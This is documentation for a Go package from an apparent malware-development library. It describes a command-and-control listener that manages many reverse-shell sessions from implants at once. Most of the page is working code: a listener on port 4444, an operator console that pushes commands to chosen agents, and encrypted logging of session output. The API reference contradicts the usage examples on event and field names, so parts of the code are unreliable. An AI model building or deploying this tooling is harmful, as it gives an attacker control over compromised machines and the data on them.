

# Multicat — Multi-Session Reverse-Shell Listener

[<- Back to C2 index](README.md)

**MITRE ATT&CK:** [T1571 - Non-Standard Port](https://attack.mitre.org/techniques/T1571/)
**Package:** `c2/multicat`
**Platform:** Cross-platform (operator-side only)
**Detection:** Low — never embedded in the implant; runs on the operator box.

---

## Primer

Multicat is the operator's side of a reverse shell: one port, many concurrent agents. Each inbound connection gets a session ID and a lifecycle event. Defenders see nothing new here — the noise is on the implant's egress, not the listener.

---

## How It Works

One listener accepts arbitrarily many transport connections, wraps each in a `Session`, and streams `EventOpened` / `EventClosed` so an operator UI can track arrivals in real time.



- `multicat.New()` — create a `Manager` with an internal events channel.
- `Manager.Listen(ctx, lis)` — accept against any `transport.Listener` (TCP, TLS, uTLS, named pipe).
- First inbound line parsed with 500 ms deadline: `BANNER:<hostname>\n` populates `Session.Meta.Hostname`.
- `Manager.Events()` — receive-only channel of lifecycle events.
- `Manager.Sessions()` / `Get(id)` / `Remove(id)` — live roster access.

Sessions live in memory; a manager restart drops them all.

---

## Usage

```go
import (
    "context"

    "github.com/oioio-space/maldev/c2/multicat"
    "github.com/oioio-space/maldev/c2/transport"
)

func main() {
    lis, _ := transport.NewTCPListener(":4444")
    mgr := multicat.New()

    go mgr.Listen(context.Background(), lis)

    for ev := range mgr.Events() {
        if ev.Type == multicat.EventOpened {
            // ev.Session.Meta.ID / RemoteAddr / Hostname
            // ev.Session implements io.ReadWriteCloser
        }
    }
}
```

The agent side (a `c2/shell` implant) should emit `BANNER:<hostname>\n` as its first write so the manager can label sessions without extra round-trips.

---

## Advanced — Interactive Session Roster

Track sessions by ID, switch between them, and push a command to a specific
agent. The `Events()` channel drives the UI state; `Get(id)` recovers a
`Session` for I/O; `Remove(id)` is idempotent.

```go
package main

import (
    "bufio"
    "context"
    "fmt"
    "os"
    "strings"

    "github.com/oioio-space/maldev/c2/multicat"
    "github.com/oioio-space/maldev/c2/transport"
)

func main() {
    lis, _ := transport.NewTCPListener(":4444")
    mgr := multicat.New()
    ctx, cancel := context.WithCancel(context.Background())
    defer cancel()
    go mgr.Listen(ctx, lis)

    // Passive: log arrivals/departures.
    go func() {
        for ev := range mgr.Events() {
            switch ev.Type {
            case multicat.EventOpened:
                fmt.Printf("[+] %s from %s (%s)\n",
                    ev.Session.Meta.ID,
                    ev.Session.Meta.RemoteAddr,
                    ev.Session.Meta.Hostname)
            case multicat.EventClosed:
                fmt.Printf("[-] %s closed\n", ev.Session.Meta.ID)
            }
        }
    }()

    // Active: operator REPL — "list", "use <id>", "kill <id>".
    in := bufio.NewScanner(os.Stdin)
    var active *multicat.Session
    for in.Scan() {
        parts := strings.Fields(in.Text())
        switch {
        case len(parts) == 1 && parts[0] == "list":
            for _, s := range mgr.Sessions() {
                fmt.Printf("  %s  %s\n", s.Meta.ID, s.Meta.Hostname)
            }
        case len(parts) == 2 && parts[0] == "use":
            if s, ok := mgr.Get(parts[1]); ok {
                active = s
            }
        case len(parts) == 2 && parts[0] == "kill":
            _ = mgr.Remove(parts[1])
        default:
            if active != nil {
                fmt.Fprintln(active, in.Text())
                buf := make([]byte, 4096)
                n, _ := active.Read(buf)
                os.Stdout.Write(buf[:n])
            }
        }
    }
}
```

---

## Combined Example

Stand up a multicat listener and wrap every inbound message in AES-GCM
before logging it — the transport handles live relay, the per-message
layer gives you a replayable session archive that cannot be read by
whoever later compromises the operator box.

```go
package main

import (
    "context"
    "io"
    "log"
    "os"

    "github.com/oioio-space/maldev/c2/multicat"
    "github.com/oioio-space/maldev/c2/transport"
    "github.com/oioio-space/maldev/crypto"
)

func main() {
    // 1. Per-operator AES-GCM key. Shared out-of-band with every implant.
    key, err := crypto.NewAESKey()
    if err != nil {
        log.Fatal(err)
    }

    // 2. Listener — swap for transport.NewTLSListener in production.
    lis, err := transport.NewTCPListener(":4444")
    if err != nil {
        log.Fatal(err)
    }

    // 3. Manager + Listen in the background.
    mgr := multicat.New()
    go mgr.Listen(context.Background(), lis)

    // 4. Archive each session's raw bytes, encrypted per chunk.
    for ev := range mgr.Events() {
        if ev.Type != multicat.EventOpened {
            continue
        }
        go func(s *multicat.Session) {
            f, _ := os.Create(s.Meta.Hostname + ".log")
            defer f.Close()
            buf := make([]byte, 4096)
            for {
                n, err := s.Read(buf)
                if n > 0 {
                    blob, _ := crypto.EncryptAESGCM(key, buf[:n])
                    _, _ = f.Write(blob)
                }
                if err == io.EOF {
                    return
                }
            }
        }(ev.Session)
    }
}
```

Layered benefit: the network leg stays plaintext-agnostic (swap TCP
for TLS without touching application code), and even a full disk
compromise of the operator box yields only AES-GCM ciphertext — the
shared key never touches storage.

---

## API Reference

```go
// EventType discriminates lifecycle events on Manager.Events().
type EventType int

const (
    EventConnected EventType = iota
    EventDisconnected
)

// SessionMetadata aggregates connection-time facts about a session.
type SessionMetadata struct {
    RemoteAddr string
    Hostname   string
    Username   string
    OS         string
    ConnectedAt time.Time
}

// Session is one accepted reverse-shell connection.
type Session struct {
    ID       string
    Conn     net.Conn
    Metadata SessionMetadata
}

// Event surfaces a session lifecycle change.
type Event struct {
    Type    EventType
    Session *Session
}

// Manager owns the listener loop, the session table, and the event fan-out.
type Manager struct{ /* unexported fields */ }

// New creates an empty Manager. Call Listen with one or more
// transport.Listener implementations (TCP, named pipe, …) to start
// accepting sessions.
func New() *Manager

// Listen accepts every connection from l and registers each as a
// Session until ctx is canceled or l errors.
func (m *Manager) Listen(ctx context.Context, l transport.Listener) error

// Events returns the receive-only channel of Event values.
func (m *Manager) Events() <-chan Event

// Sessions returns a snapshot of every currently-registered session.
func (m *Manager) Sessions() []*Session

// Get returns the Session with the given ID, or (nil, false) if absent.
func (m *Manager) Get(id string) (*Session, bool)

// Remove closes and unregisters the named session.
func (m *Manager) Remove(id string) error
```

See also [c2.md](../../c2.md#c2multicat----operator-side-multi-session-listener) for the package summary row.
